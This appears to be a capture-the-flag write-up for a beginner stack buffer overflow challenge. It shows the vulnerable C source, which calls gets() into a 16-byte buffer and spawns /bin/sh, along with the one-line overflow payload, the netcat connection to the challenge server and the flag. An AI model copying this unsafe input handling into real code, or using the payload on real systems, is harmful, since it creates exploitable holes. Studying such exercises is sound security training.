 # Overflow1

ez overflow.

nc cyberyoddha.baycyber.net 10001

# Solution

The challenge was given 2 file includes `overflow1.c` (C file) and `overflow1` (binary file).
Look at the source code I could see that the _buf_ variable just accept for _16 characters_, So I decided to try to putting more than 16 characters to _str_ variable with this payload: `python -c "print 'a'*(100)"`

I've already have `nc cyberyoddha.baycyber.net 10001` before, therefor I could get the shell and try to catch the flag

```c++
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void)
{
    char str[] = "AAAA";
    char buf[16];

    gets(buf);

    if (!(str[0] == 'A' && str[1] == 'A' && str[2] == 'A' && str[3] == 'A'))
    {
        system("/bin/sh");
    }
}

```

# Flag

`CYCTF{st@ck_0v3rfl0ws_@r3_3z}`
